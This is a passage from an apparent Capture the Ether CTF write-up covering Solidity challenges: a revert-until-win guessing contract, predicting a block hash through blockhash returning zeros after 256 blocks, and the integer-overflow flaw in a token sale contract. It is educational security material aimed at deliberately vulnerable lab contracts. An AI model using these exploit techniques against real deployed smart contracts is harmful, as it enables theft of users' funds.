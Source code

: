 - Lock in a guess of `0`
- Spam transactions, let them end up in different blocks and at some point the computed answer will match our `0` as it's random and in the range of `[0, 9]`.

```solidity
function lockInGuess(uint8 n) external payable {
    // need to call it from this contract because guesser is stored and checked
    // when settling
    challenge.lockInGuess{value: 1 ether}(n);
}

function attack() external payable {
    challenge.settle();

    // if we guessed wrong, revert
    require(challenge.isComplete(), "challenge not completed");
    // return all of it to EOA
    tx.origin.transfer(address(this).balance);
}

receive() external payable {}
```

## Predict the block hash

For the last challenge of this section, the answer is chosen as the block hash of a specific block.
Here, you need to know that the `blockhash` function only returns the actual block hash for the last 256 blocks due to performance reasons:

> `block.blockhash(uint blockNumber)` returns (`bytes32`): hash of the given block - only works for 256 most recent, excluding current, blocks - deprecated in version 0.4.22 and replaced by `blockhash(uint blockNumber)`.

After 256 blocks, `blockhash` returns 32 zeroes.
To solve this challenge, lock in `0x0000000000000000000000000000000000000000000000000000000000000000` and wait 257 blocks to call the `settle` action.

# [Math](https://capturetheether.com/challenges/math/)

The math section covers issues related to integer arithmetic (integer over- and underflows, integer division issues).
The challenges are thoughtfully created and have been the most interesting ones for me.

## Token sale

This challenge involves an exchange contract that buys and sells tokens for a fixed price of `1 ether`.
Our goal is to first buy tokens and then sell them for a profit.

The issue lies in the _require_ condition which is susceptible to an integer overflow:

```solidity
// 1 ether = 10^18
uint256 constant PRICE_PER_TOKEN = 1 ether;

function buy(uint256 numTokens) public payable {
    require(msg.value == numTokens * PRICE_PER_TOKEN);

    balanceOf[msg.sender] += numTokens;
}
```
